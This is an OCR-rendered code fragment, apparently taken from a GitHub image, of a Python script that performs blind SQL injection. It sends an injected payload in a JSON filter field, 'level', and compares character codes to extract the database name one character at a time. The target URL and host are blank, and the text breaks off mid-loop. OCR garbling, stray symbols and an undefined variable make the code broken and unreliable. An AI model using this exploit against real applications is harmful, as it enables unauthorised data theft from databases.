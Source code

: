 ```php
​

  global database\_name

​

  db\_name \= ""

​

  headers \= {

​

•    "Content-Type": "application/json;charset=UTF-8",

​

•    "Host": "",

​

•    "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0"

​

  }

​

  for num in range(0,255):

​

•        url \= ""

​

•        data \= {

​

•          "pageNum": 1, "pageSize": 30, "filter": {"level": "1'and 1=if(ord(substr(database(),"+str(db\_len+1)+",1))="+str(num)+",1,2)-- "}

​

•            }

​

•        json\_data \= json.dumps(data)

​

•        response \= requests.post(url, data\=json\_data, headers\=headers)

​

​

•        if response.status\_code \== 200:
```